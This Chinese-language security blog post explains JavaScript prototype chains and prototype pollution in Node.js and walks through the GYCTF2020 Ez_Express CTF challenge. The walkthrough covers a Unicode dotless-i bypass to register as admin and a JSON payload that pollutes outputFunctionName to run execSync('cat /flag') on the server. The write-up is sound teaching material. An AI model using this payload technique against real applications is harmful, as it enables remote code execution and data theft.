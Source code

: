 #  由浅入深理解Nodejs原型链污染漏洞   
原创 ye1s  山石网科安全技术研究院   2024-06-07 14:49  
  
原型链污染是Nodejs应用程序中的一种安全漏洞，通过修改JavaScript对象的原型链来篡改应用程序的行为。这种漏洞可能导致恶意代码执行、绕过访问控制或泄露敏感数据等严重后果。  
  
**1、 原型和原型链**  
## JavaScript没有父类和子类这个概念，也没有类和实例的区分，而JavaScript中的继承关系则是靠一种很奇怪的“原型链”模式来实现继承。  
##  1.1JavaScript 对象  
  
在JavaScript中几乎所有的事物都是对象，如下代码：  
```
var a = {
    "name": "HoKong",
    "pass": "password"
}
console.log(a['name'])
console.log(a.pass)
console.log(a);
```  
  
其中访问对象的属性，可以有两种方式：  
```
a.name;
a["name"];
```  
##     1.2原型的定义  
  
每个对象在JavaScript中都具有一个原型对象。这个原型对象通过对象的内置属性__proto__指向其构造函数的prototype指向的对象。换句话说，每个对象都是由一个构造函数创建的。在JavaScript中，原型是实现继承的基础，JavaScript的继承是基于原型的继承。  
  
如下图所示，在JavaScript中，当声明一个名为A的函数时，浏览器会在内存中创建一个名为B的对象。函数A默认具有一个属性prototype，它指向对象B，即函数A的原型对象，也简称为函数的原型。对象B默认具有一个属性constructor，它指向函数A本身。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53Oibvm3vtOmJ63OFOMKxaia1TQLzrwNl6FZOWHk3Pl4jZFPYzic38LFPRo8w/640?wx_fmt=png&from=appmsg "")  
  
如下图所示，在JavaScript中，每个函数都具有一个prototype属性，该属性指向通过调用该构造函数创建的原型对象。此外，在JavaScript中，每个实例对象（包括函数、数组和普通对象）也都具有一个__proto__属性，用于指向其对应的原型对象（隐式原型）。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53OibTef19OQLrXy8xcxoibqW33f3ePrgloTa9nIibkCOrxNFiclVu5NRPFo1g/640?wx_fmt=png&from=appmsg "")  
  
实例对象的 __proto__与创建该实例对象的构造函数的 prototype 是相等的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53OibcrQ89owlYuaVnBqHa7vZzpibshIbK4elNV8fr0BtQvW1lgaoRDeCkFw/640?wx_fmt=png&from=appmsg "")  
  
**1.3原型链的搜索**  
  
  
原型链是JavaScript中实现继承的方式，通过递归地继承原型对象的原型来实现。在原型链中，顶端是Object的原型。当需要使用或输出一个变量时，首先会在当前层级中搜索相应的变量。如果该变量在当前层级中不存在，就会向上层级搜索，也就是在其父类中搜索。如果在父类中仍然找不到该变量，就会继续向祖父类搜索，直到最终指向null。如果在整个原型链中仍然没有找到该变量，就会返回undefined。  
  
如下图所示，在JavaScript中，当我们想要访问某个属性时，首先会在实例对象（A）本身内部查找该属性。如果在实例对象中没有找到该属性，就会继续在该对象的原型（a.__proto__，即A.prototype）上查找。我们知道，对象的原型也是一个对象，它也有自己的原型。如果在对象的原型上仍然没有找到目标属性，就会继续在对象的原型的原型（A.prototype.__proto__）上查找，依此类推。这个过程一层一层地在原型上进行查找，就形成了原型链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53OibmbH2rmxiaR1JdBSWO2MGREibicx7aic45D7URQgTosibpyTfB0xh7AUORKA/640?wx_fmt=png&from=appmsg "")  
  
实例对象原型的原型是Object.prototype，而它的原型是null，null 没有原型，所以 Object.prototype 就是原型链的最顶端。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53OibiamlCpTFhyUjQw2cwfzMUfb5vcHFEdUgyEzuQAbk4Ep3axpAf3VCDibA/640?wx_fmt=png&from=appmsg "")  
  
**2、原型链污染**  
  
JavaScript中，可以使用a.b.c或a["b"]["c"]的方式来访问对象的属性。由于对象是无序的，当使用第二种方式访问对象时，只能使用指定的下标进行访问。因此，可以通过a["__proto__"]的方式来访问对象的原型对象。  
  
在一个应用程序中，如果攻击者能够控制并修改对象的原型，就能够影响到所有与该对象同一类、父类或祖先类的对象。这种攻击方式被称为原型链污染。  
  
原型链污染通常发生在对象或数组的键名或属性名可控的情况下，并且发生在赋值语句中。常见的情况包括对象递归合并操作，对象克隆，以及在路径查找属性后修改属性的操作。  
  
如下图例子所示：可以发现一个对象son修改自身的原型的属性的时候会影响到另外一个具有相同原型的对象son1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53OibicQsXIx6oib6pBNGffqia8rUic3CwFdejBptYyuxaVjSLmUVGUoxQfe2HQ/640?wx_fmt=png&from=appmsg "")  
  
**例题分析：[GYCTF2020]Ez_Express**  
  
访问路由/www.zip,可得到源码，接下来对源码进行分析。  
  
源码中用了 merge() 和 clone()，在merge()方法里有对象递归合并操作，可造成原型链污染。  
```
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
```  
  
往下找到调用 clone() 的位置：  
```
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```  
  
可见，当登录 admin 用户后，便可以发送 POST 数据来进行原型链污染。但是要污染哪一个参数？继续向下看到 /info 路由。  
```
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```  
  
看到在 /info 里，将 res 对象中的 outputFunctionName 属性渲染入 index 中，而 outputFunctionName 是未定义的，所以污染 outputFunctionName 属性。  
```
res.outputFunctionName=undefined;
```  
  
但是需要登录admin账号才能用到 clone()，这里又不知其admn账户的密码。先到 /login 路由处分析一下。  
```
router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
```  
  
可以看到注册的用户名不能为 admin，不过有个地方可以注意到：  
```
'user':req.body.userid.toUpperCase(),
```  
  
这里将user给转为大写了，这里可以考虑到JavaScript 大小写特性来绕过。  
  
可以注册一个 admın，此admın非彼admin，仔细看i部分。  
  
注册admın后成功登录admin用户。接下来可以发送 Payload 进行原型链污染。  
```
{"lua":"test","__proto__":{"outputFunctionName":"t=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//"},"Submit":""}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTbmGKGF8Oicaf7RwFlia53Oibl0acRWVLWKlib2yIZUibNBMIhWNWk5JCiclZchLW4icYjwboKtjxiaiatoKA/640?wx_fmt=png&from=appmsg "")  
  
然后再访问 /info 路由即可得到flag。  
  
  
